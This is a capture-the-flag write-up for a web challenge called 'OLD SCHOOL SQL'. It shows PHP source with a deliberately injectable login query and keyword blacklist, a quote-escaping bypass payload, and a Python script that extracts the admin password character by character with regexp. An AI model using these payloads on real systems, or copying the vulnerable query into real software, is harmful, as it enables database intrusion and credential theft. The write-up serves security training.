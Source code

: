 # OLD SCHOOL SQL (web 150)

Source code : 

```PHP
<?php 
include "./config.php";
include "./flag.php";
error_reporting(0);

$black_list = "/admin|guest|limit|by|substr|mid|like|or|char|union|select|greatest|%00|\'|";
$black_list .= "=|_| |in|<|>|-|chal|_|\.|\(\)|#|and|if|database|where|concat|insert|having|sleep/i";
if(preg_match($black_list, $_GET['user'])) exit(":P"); 
if(preg_match($black_list, $_GET['pw'])) exit(":P"); 


$query="select user from chal where user='$_GET[user]' and pw='$_GET[pw]'"; 

$result = mysql_query($query);
$result = mysql_fetch_array($result);
$admin_pass = mysql_fetch_array(mysql_query("select pw from chal where user='admin'"));
echo "<h1>query : <strong><b>{$query}</b></strong><br></h1>";
if($result['user']) echo "<h2>Welcome {$result['user']}</h2>"; 
if(($admin_pass['pw'])&&($admin_pass['pw'] === $_GET['pw'])){
    echo $flag;
}

highlight_file(__FILE__); 

?>
```

On seeing the source code we can get to know that the ```'``` is blocked but we can bypass the query as follows 

```PHP
select user from chal where user='\' and pw='%a0||%a01;%00'
```
Now to get the flag we need to dump the admin password for that we are going to use regex. Here is a python script for that.

```python
import requests
url="http://35.200.215.237?user=\&pw=%0a||%0a(user%0aregexp%0a0x61646d696e%0a%26%26%0a(pw)%0aregexp%0a\"^"
pay="1234567890"
passwd=""
for i in range(1,10):
    corr=0
    for j in pay:
        query=url+passwd+j+"\");%00"
        print(query)
        http=requests.get(query)
        if "Welcome admin" in http.text:
            passwd=passwd+j
            print(passwd)
            corr+=1
    if corr==0:
        break
print("Final pw : "+passwd)
```

On dumpling the admins password and submitting the pw=17292115 we get the flag : 
```flag{sQ1_inj3c7i0n_i5_v3ry_3asy}```

***Interesting*** ***fact*** : the 1729 from admins password represents the Ramanujan number about which you can learn [here](https://en.wikipedia.org/wiki/1729_(number). 